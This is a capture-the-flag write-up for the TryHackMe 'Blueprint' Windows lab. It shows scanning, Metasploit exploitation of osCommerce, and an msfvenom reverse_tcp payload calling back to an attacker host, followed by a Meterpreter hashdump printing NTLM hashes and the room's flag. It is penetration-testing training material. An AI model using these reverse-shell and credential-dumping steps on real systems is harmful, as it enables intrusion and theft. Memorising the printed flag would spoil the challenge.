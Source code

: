# TryHackMe-Blueprint

>Abdullah Rizwan | 23th September , 11:03 PM

## NMAP

```
nmap -sC -sV $IP

```

```
Nmap scan report for 10.10.37.223
Host is up (0.38s latency).
Not shown: 987 closed ports
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-IIS/7.5
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 111.42 seconds

```




## Gobuster


```
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.37.223:8080
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/23 14:30:08 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.hta (Status: 403)
/.htpasswd (Status: 403)
/aux (Status: 403)
/cgi-bin/ (Status: 403)
/com2 (Status: 403)
/com3 (Status: 403)
/com1 (Status: 403)
/con (Status: 403)
/licenses (Status: 403)
/lpt1 (Status: 403)
/lpt2 (Status: 403)
/nul (Status: 403)
/phpmyadmin (Status: 403)
/prn (Status: 403)
/server-status (Status: 200)
/server-info (Status: 200)
/webalizer (Status: 403)
===============================================================
2020/09/23 14:32:46 Finished

```


## PORT 8080


<img scr="https://imgur.com/BFgp2dj.png" />


I looked up on exploitdb for `osCommerce 2.4.3` and found many exploits one of which was


<img src="https://imgur.com/vMcOi7I.png" />

<img src="https://imgur.com/nUiVxuX.png"/>


For me this exploit failed since I cannot make a new installation of database and RCE depends upon this step to be finished.


## Metasploit

I looked on msfconsole if there was an exploit available

<img src="https://imgur.com/xnu5rzj.png"/>

<img src="https://imgur.com/FAjAfSx.png"/>

<img src="https://imgur.com/jKf21kZ.png"/>

Then navigate to `C:\Users\Administrator\Desktop`

root flag : `THM{aea1e3ce6fe7f89e10cea833ae009bee}`


Now we cannot load `kiwi` because it is not stabilized so we are going to create a payload 

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.8.94.60 LPORT=7777 -f exe > shell.exe`


Upload the payload on the machine
```
meterpreter > upload shell.exe
[*] uploading  : shell.exe -> shell.exe
[*] Uploaded -1.00 B of 72.07 KiB (-0.0%): shell.exe -> shell.exe
[*] uploaded   : shell.exe -> shell.exe
meterpreter > ls
Listing: C:\Users\Administrator\Desktop
=======================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100666/rw-rw-rw-  282    fil   2019-04-11 18:36:47 -0400  desktop.ini
100666/rw-rw-rw-  37     fil   2019-11-27 13:15:37 -0500  root.txt.txt
100777/rwxrwxrwx  73802  fil   2020-09-23 15:02:08 -0400  shell.exe

meterpreter > 


```

Start another msfconsole

```
msf5 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > set LHOST 10.8.94.60
LHOST => 10.8.94.60
msf5 exploit(multi/handler) > set LPORT 7777
LPORT => 7777
msf5 exploit(multi/handler) > 

```

### Meterpreter on unstabilized Shell

```
meterpreter > execute -f shell.exe
Process 5212 created.
meterpreter > 

```

### Meterperter for getting stablized shell


```
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.8.94.60:7777 
[*] Sending stage (176195 bytes) to 10.10.143.248
[*] Meterpreter session 1 opened (10.8.94.60:7777 -> 10.10.143.248:49167) at 2020-09-23 15:13:54 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:549a1bcb88e35dc18c7a0b0168631411:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Lab:1000:aad3b435b51404eeaad3b435b51404ee:30e87bf999828446a1c1209ddde4c450:::
meterpreter > 

```
Visit Crackstation for cracking NTLM hash
